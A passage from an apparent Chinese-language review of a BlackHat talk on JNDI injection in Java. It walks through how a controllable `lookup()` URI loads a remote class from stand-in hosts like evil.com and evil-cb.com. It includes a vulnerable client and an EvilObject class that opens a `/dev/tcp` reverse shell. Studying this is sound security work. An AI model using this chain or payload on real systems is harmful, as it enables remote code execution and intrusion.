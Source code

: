 但第一次调用 `lookup()` 函数的时候，会对上下文环境进行一个初始化，这时候代码会对 `paramName` 参数值进行一个 URL 解析，如果 `paramName` 包含一个特定的 Schema 协议，代码则会使用相应的工厂去初始化上下文环境，这时候不管之前配置的工厂环境是什么，这里都会被动态地对其进行替换。

### 0x03 利用 JNDI 注入加载远程代码并执行

结合前面说到的两个点：

* JNDI 调用中 `lookup()` 参数可控
* 使用带协议的 URI 可以进行动态环境转换
* `Reference` 类动态代码获取进行实例化

即当 Java 应用代码中出现 `lookup(<attacker-controlled>)` 这种情况时，会形成 RCE，整个利用过程为：

![]({{ site.url }}/public/img/article/2016-08-19-jndi-injection-from-theory-to-apply-blackhat-review/5.png)

1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj` 想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

整个攻击的实现过程如上面所述，**关键的利用点在于攻击者可控的允、许动态环境转换的接口函数**，这里举了 `RMI` 结合 `Reference Object` 进行 RCE 的例子，更多的攻击向量参考原议题内容即可（因为我也理解得不是特别透彻，怕写错误导了大家）

下面给出完整的演示代码示例，首先是存在 JNDI 注入的程序（`RMIService.java`）：

```java
import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception {
        if(args.length < 1) {
            System.out.println("Usage: java JNDIClient <uri>");
            System.exit(-1);
        }
        String uri = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }
}
```

接着是要通过 JNDI 注入远程加载的类实例，一会儿可以用 `python -m SimpleHTTPServer` 启一个临时的 HTTP 服务来提供编译好的 `EvilObject.class`（`EvilObject.java`）：

```java
import java.lang.Runtime;
import java.lang.Process;

public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/sh", "-c", "/bin/sh -i > /dev/tcp/127.0.0.1/1337 2>&1 0>&1"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```
